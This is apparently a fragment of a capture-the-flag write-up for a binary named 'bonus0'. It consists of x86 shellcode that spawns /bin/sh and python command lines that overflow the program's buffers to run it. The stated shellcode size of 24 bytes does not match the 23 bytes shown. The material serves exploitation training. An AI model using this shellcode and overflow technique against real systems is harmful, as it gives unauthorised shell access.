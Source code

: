 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

```
(python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
```

```
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
```
